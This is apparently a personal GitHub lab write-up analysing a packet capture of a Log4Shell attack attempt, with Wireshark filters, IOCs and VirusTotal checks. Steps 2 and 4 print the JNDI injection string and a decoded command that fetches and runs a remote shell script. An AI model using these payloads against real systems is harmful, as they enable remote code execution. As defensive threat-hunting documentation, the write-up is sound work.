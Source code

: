 #  Remote Code Execution Attempt via Log4j (JNDI Injection)

## Overview

In this lab, I documented the investigation of a malicious packet capture (PCAP) containing a real-world Log4j (Log4Shell) exploit attempt. The objective was to detect signs of remote code execution (RCE), identify Indicators of Compromise (IOCs), and validate attacker infrastructure using open-source tools. This project helped me gain skills in threat hunting, packet analysis, payload decoding, and threat intelligence.

##  Objective

- Analyze a suspicious `.pcapng` file  
- Detect Log4j exploit attempts via JNDI injection  
- Decode any hidden payloads  
- Confirm if any callback/C2 behavior occurred  
- Extract IOCs and validate threat infrastructure
  
---

##  Tools Used


- **Wireshark** (v4.4.6)  
- **CyberChef** (Base64 decoding)  
- **VirusTotal** (IP reputation lookup)

----

## Detection Techniques Used


- Wireshark display filters
- TCP stream inspection
- CyberChef decoding
- IP reputation check via VirusTotal

---

### Step 1 : Initial Packet Capture Review

- Loaded the `.pcapng` file into **Wireshark**
- Since this was an offline PCAP, interface selection was irrelevant





This shows suspicious traffic where JNDI strings are present in HTTP request payloads—an indicator of potential Log4j exploitation attempts.

![Initial inspection: frame contains "jndi"](Screnshotslog4j/framecontainsjndi.png)

---

### Step 2: Applied Filter to Detect Log4j Exploits

**Filter Used:** ip contains "jndi"


**Goal:** Detect `${jndi:...}` pattern commonly used in Log4Shell attacks

**Findings:**

- Multiple HTTP POST requests to `198.71.247.91` (SERVER IP)
- Suspicious `User-Agent` headers containing: ${jndi:ldap://45.137.21.9:1389/Basic/Command/Base64/...}


---

### Step 3: Isolate Callback Behavior

This screenshot captures both the use of the composite filter and a specific request containing a Base64-encoded command in the `User-Agent` header.

![Callback filter applied in Wireshark](Screnshotslog4j/checkC2.png)


**Goal:** Identify callback attempts to attacker-controlled servers (C2).

---

### Step 4: Decode the Payload with CyberChef

**Base64 Payload Extracted:**

d2dldCBodHRwOi8vNjIuMjEwLjEzMC4yNTAvbGguc2g7Y2htb2QgK3ggbGguc2g7Li9saC5zaA==



**Decoded with CyberChef:**  

wget http://62.210.130.250/lh.sh ; chmod +x lh.sh; ./lh.sh

 
This screenshot shows the decoding process in **CyberChef**, where the Base64-encoded string is transformed into a shell command. The output reveals the intent to download and execute a remote shell script, indicating a clear attempt at remote code execution.

![CyberChef decoding Base64 payload](Screnshotslog4j/cyberchef_decode.png)


**Interpretation:**

- Downloads a shell script from `62.210.130.250`
- Makes it executable and runs it
- Confirms a remote code execution attempt

---

### Step 5: Validate Malware Host with VirusTotal
 
This screenshot shows that multiple security vendors (e.g., BitDefender, ESET, Dr.Web) flagged this IP as **Malicious**, **Malware**, or **Phishing**.

![VirusTotal analysis of 62.210.130.250](Screnshotslog4j/virustotal_62.210.130.250.png)

**Queried IP:** `62.210.130.250`  
**Result:** Flagged as malicious by 12+ security vendors

---

## 🔎 Additional Observations

- Attacker LDAP server `45.137.21.9:1389` delivered the malicious redirect
- Script `lh.sh` likely contains second-stage malware or C2 payload

---

##  Filters Used

- `ip contains "jndi"`  
- `tcp.flags == 0x002 and ip.src == 198.71.247.91`  
- `frame contains "ldap"`  
- `http contains "Base64"`  
- `http.request.method == "POST"`

---

## 🚨 Indicators of Compromise (IOCs)

| Type               | Value                          |
|--------------------|--------------------------------|
| Attacker LDAP IP   | `45.137.21.9`                  |
| Malware Host IP    | `62.210.130.250`               |
| Targeted Server IP | `198.71.247.91`                |
| Payload Pattern    | `${jndi:ldap://...}`           |
| Payload Script     | `lh.sh` (via `wget`)           |

---

## 💡 Summary of Insights

- Real-world **Log4j RCE** attempt detected
- Payload was **Base64 encoded** to obscure intent
- Malicious infrastructure still active at time of analysis
- No full C2 stream detected, but **SYN packets suggest callbacks**
  
---

## 📚 Lessons Learned

- Log4j exploits can hide in HTTP headers like `User-Agent`
- Always decode suspicious strings to understand payload behavior
- Outbound SYNs may indicate attempted **C2 communication**
- Cross-referencing IOCs with services like **VirusTotal** increases confidence


---

## ✅ Conclusion

This concludes **Case Study #1** in the Network Threat Hunting Lab.  
It demonstrates a full-stack analysis pipeline suitable for my:

- SOC analyst internship applications  
- Blue team/IR skill demonstration  
- Personal cybersecurity lab documentation

---

* This personal lab project demonstrates my understanding of network protocols, threat patterns, and detection techniques used in real SOC environments.

